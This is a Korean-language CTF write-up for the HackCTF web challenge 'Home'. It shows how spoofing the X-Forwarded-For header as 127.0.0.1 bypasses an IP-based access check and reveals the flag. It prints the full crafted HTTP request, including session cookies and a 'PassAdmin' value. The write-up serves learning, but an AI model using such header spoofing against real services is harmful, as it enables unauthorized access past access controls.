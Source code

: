 ```yaml
---
title: 'HackCTF - WEB - Home'
date: 2020-04-05 21:04:76
tags: ["web", "HackCTF", "ctf"]
draft: false
---
```

# HackCTF - WEB - Home

일단 문제 사이트에 접근을 하면 아래와 같은 화면으로 IP 주소에 대해 검증을 하여 접근 제한을 하는 모습을 볼 수 있습니다.

![image-20191210201522512](image/HackCTF - WEB - Home/image-20191210201522512.png)

이때 머리말을 생각 해보라고 힌트를 주는데 이떄의 머리말은 HTTP의 Header에 대해 이야기 하는 것이고 예전에 풀었던 RITSEC CTF의 문제와 같이 **X-Forwarded-For** 를 이용하는 것을 알 수 있습니다. 이제 한번 패킷을 전송해봅니다.

```http
GET / HTTP/1.1
Host: ctf.j0n9hyun.xyz:2034
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 127.0.0.1 // 루프백 주소를 전달
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.146 Whale/2.6.89.9 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: _ga=GA1.2.1648668259.1573465863; _gid=GA1.2.1890637559.1575894614; Cookie=WlhsS2NGcERTVFpKYWtscFRFTktNR1ZZUW14SmFtOXBXak5XYkdNelVXbG1VVDA5; PHPSESSID=rmsjabjhdvlhu8cp8bsa995p45; session=.eJwNz7FugzAQANBfqW5mwA7pgNShFSQK1RlR2bHOGwUqsDkiFVUBovx72d_yHlC3PEyQ_tTj3EUwtJAKKV4jmG5T00H6gJdvSKHU16BkdcTMxMTFqDwdFJ9CafOYNIkyC6s7V6uyF4m2Eko6xvNp3C0773pl843kRaA0d9IFl_o9Qc4FekrImtjpJkHf90pfGXVzQI-Lyj6C021w_mtQTCsy7sas5MPR2XxRuyFtFvSqx6wfaDN3tdEbPCP4m7vfqeY9AEXdzd3tc2B4_gM2Xk4a.EM_P2A.Gx4Mr9GrGMSRPs5hUMFmOdKw-Es; PassAdmin=j0n9hyun
Connection: close
```

이제 결과를 보면 아래와 같이 플래그가 출력 되는 것을 볼 수 있습니다.

![image-20191210202100635](image/HackCTF - WEB - Home/image-20191210202100635.png)
